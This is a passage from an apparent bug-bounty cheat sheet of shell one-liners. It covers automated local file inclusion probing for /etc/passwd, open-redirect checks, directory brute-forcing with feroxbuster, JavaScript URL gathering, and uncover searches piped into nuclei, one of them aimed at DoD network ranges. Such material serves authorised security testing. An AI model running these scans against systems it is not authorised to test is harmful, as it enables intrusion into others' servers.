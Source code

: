 ### Local File Inclusion
> @dwisiswant0
```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0
```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

## Directory Listing

### (Feroxbuster) common command
```bash
feroxbuster -u https://target.com --insecure -d 1 -e -L 4 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```
### (Feroxbuster) Multiple values
> @epi052 or [feroxbuster](https://github.com/epi052/feroxbuster)
```bash
feroxbuster -u http://127.1 -x pdf -x js,html -x php txt json,docx
```
### (Feroxbuster) Read urls from STDIN; pipe only resulting urls out to another tool
> @epi052 or [feroxbuster](https://github.com/epi052/feroxbuster)
```bash
cat targets | ./feroxbuster --stdin --silent -s 200 301 302 --redirects -x js | fff -s 200 -o js-files
```

# search javascript file
> @ofjaaah
```bash
gau -subs DOMAIN |grep -iE '\.js'|grep -iEv '(\.jsp|\.json)' >> js.txt
```

# Uncover
>  [projectdiscovery/uncover](https://github.com/projectdiscovery/uncover)
```bash
uncover -q http.title:"GitLab" -silent | httpx -silent | nuclei
uncover -q target -f ip | naabu
echo jira | uncover -e shodan,censys -silent
```
> @ofjaah
```bash
uncover -q 'org:"DoD Network Information Center"' | httpx -silent | nuclei -silent -severity low,medium,high,critical
```
